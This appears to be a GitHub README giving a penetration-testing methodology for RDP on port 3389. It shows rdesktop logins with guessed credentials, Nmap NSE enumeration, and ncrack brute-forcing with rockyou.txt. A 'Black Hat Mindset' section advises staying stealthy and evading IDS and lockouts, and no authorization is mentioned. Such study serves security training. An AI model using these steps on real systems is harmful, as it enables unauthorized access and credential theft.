 # Basic Methodology - Port 3389 (RDP)

This README provides a methodology for exploiting Remote Desktop Protocol (RDP) services running on port 3389. The focus is on connecting to RDP using rdesktop, enumerating with Nmap NSE scripts, and brute-forcing credentials with ncrack.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Connecting to RDP](#connecting-to-rdp)
- [Enumerating with Nmap NSE Scripts](#enumerating-with-nmap-nse-scripts)
- [Brute-Forcing Credentials with ncrack](#brute-forcing-credentials-with-ncrack)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

RDP, running on port 3389, is a Microsoft protocol for remote access to Windows systems. It is a common target due to weak or reused credentials and misconfigurations that allow unauthorized access. This guide covers connecting to RDP with rdesktop, enumerating vulnerabilities using Nmap NSE scripts, and brute-forcing credentials with ncrack.

## Setup and Prerequisites

To begin, ensure the following:

### Environment
- A Linux host (e.g., Kali Linux) with network access to the target RDP server.

### Tools
- Install rdesktop (e.g., `sudo apt install rdesktop` on Debian-based systems)
- Install Nmap with NSE scripts (e.g., `sudo apt install nmap`)
- Install ncrack (e.g., `sudo apt install ncrack`)

### Requirements
- Target Information: Obtain the target IP address (e.g., 192.168.1.100)
- Credential Lists: Prepare a list of usernames (e.g., administrator, user) and a password file (e.g., `/usr/share/wordlists/rockyou.txt`)

## Connecting to RDP

Use rdesktop to attempt connecting to the RDP server with known or guessed credentials.

### Command
```bash
rdesktop -u <username> -p <password> <IP address>
```

### Example
```bash
rdesktop -u administrator -p Password123 192.168.1.100
```

### Behavior
- If credentials are valid, rdesktop establishes a remote desktop session
- If credentials are incorrect, the connection fails with an error (e.g., Failed to connect)

### Notes
- The administrator account is a common target due to its high privileges
- Test credentials reused from other services (e.g., domain accounts, web apps) or default passwords
- Use `-d <domain>` for domain-based authentication if applicable (e.g., `-d CORP`)

## Enumerating with Nmap NSE Scripts

Use Nmap NSE scripts to enumerate the RDP server and identify vulnerabilities.

### List Available RDP NSE Scripts
```bash
ls -la /usr/share/nmap/scripts | grep "rdp"
```

Example Output:
```
-rw-r--r-- 1 root root  12345 Jan 10 2025 rdp-enum-encryption.nse
-rw-r--r-- 1 root root  23456 Jan 10 2025 rdp-ntlm-info.nse
-rw-r--r-- 1 root root  34567 Jan 10 2025 rdp-vuln-ms12-020.nse
```

Lists all RDP-related NSE scripts available in Nmap.

### Run Key RDP NSE Scripts

#### Gather RDP Information
```bash
nmap --script rdp-ntlm-info -p 3389 192.168.1.100
```
Retrieves NTLM information, including domain and server details.

#### Check Encryption Levels
```bash
nmap --script rdp-enum-encryption -p 3389 192.168.1.100
```
Enumerates supported encryption protocols and security settings.

#### Scan for Vulnerabilities
```bash
nmap --script rdp-vuln-ms12-020 -p 3389 192.168.1.100
```
Checks for known vulnerabilities like MS12-020 (Remote Desktop DoS).

### Notes
- Ensure Nmap is updated to include the latest NSE scripts (`nmap --script-updatedb`)
- Combine multiple scripts (e.g., `rdp-ntlm-info,rdp-enum-encryption`) for comprehensive enumeration
- Look for weak encryption or unpatched vulnerabilities that could be exploited

## Brute-Forcing Credentials with ncrack

Use ncrack to automate credential guessing for RDP.

### Command
```bash
ncrack -vv --user <username> -P <password-file> rdp://<IP address>
```

### Example
```bash
ncrack -vv --user administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.100
```

### Behavior
- Attempts to guess credentials using the provided username and password file
- Outputs valid credentials if successful (e.g., administrator:Password123)

### Notes
- Use `-U <username-file>` for multiple usernames (e.g., `-U users.txt`)
- Adjust `--timeout` or `--connection-limit` to avoid account lockouts or detection
- Test with a small, targeted password list initially to minimize noise

## Black Hat Mindset

To exploit RDP effectively, think like an attacker:

- **Exploit Weak Credentials**: Target reused or default credentials, especially for the administrator account
- **Enumerate Thoroughly**: Use Nmap NSE scripts to identify weak encryption, misconfigurations, or known vulnerabilities
- **Brute-Force Efficiently**: Leverage ncrack to guess credentials systematically while avoiding lockouts
- **Stay Stealthy**: Minimize connection attempts and use low-profile enumeration to evade detection by logging or IDS

## Resources

- [Microsoft RDP Documentation]()
- [Nmap NSE Documentation]()
- [ncrack Documentation]()
- [RDP Security Best Practices]()

